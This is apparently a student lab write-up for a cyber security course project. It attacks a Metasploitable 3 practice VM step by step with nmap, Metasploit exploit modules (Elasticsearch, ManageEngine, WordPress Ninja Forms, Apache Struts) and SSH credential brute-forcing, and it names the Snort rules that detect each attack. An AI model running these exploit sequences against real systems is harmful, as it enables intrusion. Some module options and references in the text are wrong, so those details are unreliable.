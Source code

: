 Please GO THROUGH THE PDF FILE

# Cyber_Security_Base_Project_II
"Metasploitable 3" and "Snort" rules 
Cyber security base – Project II

Target – Metasploitable 3
	    Windows Server 2008 & Ubuntu server 14

STEP 1: Run an Nmap Ping sweep scan to look for potential connected devices  

$ nmap -sP 192.168.1.1/24


STEP 2: Identify Target Host – 192.168.1.40

STEP 3: Run an nmap scan on the target machine with OS Fingerprinting and save the output in a file called Meta3.nmap


I ran a verbose nmap scan for which i have attached the output file:

# Nmap 7.80 scan initiated Sun Mar  8 20:48:34 2020 as: nmap -sC -sV -p- -A -oA Meta3 192.168.1.40 (output file attached)

Scan results discovered many of valuable information about the open ports and services running on the target device. There was no authentication required to access the administrative functions, default credentials are not changed and there are outdated versions of a few were running. Snort obviously did not trigger a warning about anything, as the port scan detection configurations has been commented out from snort.conf on default.

EXPLOIT I – ELASTIC SEARCH – CVE-2014-3120

STEP 4: PORT 9200 – Elasticsearch

Googling about the gethered information I found a link which has an exploit for that service. 

Vulnerability name: Elastic search - CVE-2014-3120

https://www.rapid7.com/db/modules/exploit/multi/misc/java_rmi_server

STEP 5: Run a searchsploit and check if you have the exploit in local machine.

$ searchsploit elasticsearch



STEP 6: Turn on metasploit

$ msfconsole








STEP 7: search for an exploit and exploit the machine.

$ search elasticsearch
$ use exploit/multi/elasticsearch/script_mvel_rce
$ options
$ set rhost 192.168.1.40
$ exploit

you get a shell once you get a shell, you can run the following commands.

# sysinfo
# shell
# whoami


Snort did not log any alerts

SNORT RULE FIX: but after uncommenting line 811 (depends about ruleset) on server-other.rules file, Snort produces the following message: SERVER-OTHER ElasticSearch script remote code execution attempt [**] [Classification: Attempted User Privilege Gain]

EXPLOIT II - ManageEngine (CVE-2015-8249)

STEP 1: Port 8020 is running an Apache service 

STEP 2: Visit <your_meta_ip>:8020



Manage Engine is running in that port with a default username and password admin:admin

Manage Engine : Build No – 91084 

Googling for such information we get the following Poc
https://blog.rapid7.com/2015/12/14/r7-2015-22-manageengine-desktop-central-9-fileuploadservlet-connectionid-vulnerability-cve-2015-8249/

STEP 3: look for exploits in your device 

$ searchsploit manageengine desktop central 9


STEP 4: Turn on metasploit

$ msfconsole
$ search manageengie
$ use exploit/windows/http/manageengine_connectionid_write
$ set rhost 192.168.1.40
$ exploit

you gain meterprerer shell, run the following commands to conform.
# sysinfo			# shell 			# whoami
Once again, Snort doesn’t alert about anything, but this can easily be changed by 

SNORT RULE FIX: Uncommenting lines 1854-1856 on server-webapp.rules gives us following: SERVER-WEBAPP ManageEngine Desktop Central FileUploadServlet directory traversal attempt [**] [Classification: Web Application Attack]


Exploit III - WordPress – CVE-2016-1209
STEP 1: Visit <Meta_ip:>8585 you can see that wordpress is running.

STEP 2: Googling a little bit we found the following exploit
https://www.rapid7.com/db/modules/exploit/unix/webapp/wp_ninja_forms_unauthenticated_file_upload
STEP 3: Trun on metasploit console and exploit the target.
$ msfconsole
$ search wp_ninja_forms
$ use exploit/multi/http/wp_ninja_forms_unauthenticated_file_upload
$ set rhost 192.168.1.40
$ set rport 8585
$ set TARGETURI /wordpress/
$ set FORM_PATH /index.php/king-of-hearts/
$ exploit

SNORT RULE FIX : After uncommenting line 2284 in server-webapp.rules and adding the port 8585 into monitoring HTTP traffic, Snort gives the following alert: SERVER-WEBAPP WordPress Ninja Forms nf_async_upload arbitrary PHP file upload attempt [**] [Classification: Attempted Administrator Privilege Gain]


EXPLOIT 4: Bruteforcing SSH
STEP 1: When you gained a root access last time, run the following command to see a list of all users in the system.
$net users

We can use the metaploit module for ssh_login to try to brute force into some of these available names.

STEP 2: save all the user name in a text file





















STEP 3: turn on metasploit and use the ssh_login module to check for insecure passwords same as username.

$ use auxiliary/scanner/ssh/ssh_login
$ set rhost 192.168.1.40
$ set USER_AS_PASS true
$ set USER_FILE user.txt
$ exploit

Give the user file that we created to metasploit and exploit

I had some issues with my arch linux so had to shift back to kali for this one.
We can already see that we got some valid credentials like Vagrant:Vagrant.

SNORT FIX : Snort could probably be generated for slower (longer) SSH brute force attempts, but for such a fast SSH connection it wouldn’t be wise to start raising alert flags (considering admin’s point of view).


EXPLOIT 5: Apache Struts CVE-2016-3087

STEP 1: Look nmap result port 8282 runs Apache Tomcat Server, 

STEP 2: After a bit of research we find the following:
https://www.rapid7.com/db/vulnerabilities/struts-cve-2016-3087

STEP 3: Open metasploit and look for exploit and hack the box.
$ msfconsole
$ search rest_exec
$ use exploit/multi/http/struts_dmi_rest_exec
$ set lhost 192.168.1.40
$ set lport 8282
$ exploit


We hacked the box 

SNORT RULE FIX: We can get Snort to figure this out by uncommenting lines 118 and 119 from server-apache.rules (which I had already done) and adding port 828 for monitoring. This gives us following message: SERVER-APACHE Apache Struts remote code execution attempt [**] [Classification: Attempted Administrator Privilege Gain]

Is it easier to fix the application than to detect attacks?

In my opinion, detecting attacks is much easier than fixing an application. This is because the latter can be approached in a variety of different ways, unlike the former. In other words, it is more efficient to conduct reconnaissance, penetration testing, and privilege escalation to identify faults in an application than 
to sift through millions of lines of code trying to locate and fix issues. Moreover, in the latter approach, fixing one vulnerability often introduces multiple new ones, and mistakes may occur at the implementation level—not necessarily within the code itself. Issues like this can easily push developers outside their comfort 
zones, increasing the likelihood of errors. Developers often have a heavy workload, and with the recent surge in IoT devices, it's increasingly difficult for them to manage application fixes entirely on their own. That’s where intrusion detection plays a crucial role. Although not a direct solution, it serves as a countermeasure 
by providing information about potential vulnerabilities in both the system and its applications. Systems based on modern open-source platforms are arguably easier to patch, but vulnerabilities still need to be identified first—making intrusion detection essential. Penetration testing reports and vulnerability assessments can 
actually speed up the application-fixing process. In addition to Intrusion Detection Systems (IDS) like Snort, attack detection often involves log monitoring and analysis. When unusual behavior is noticed in logs, it may indicate the need for a vulnerability assessment or software/hardware update—though not always, as false 
positives can be quite frustrating.

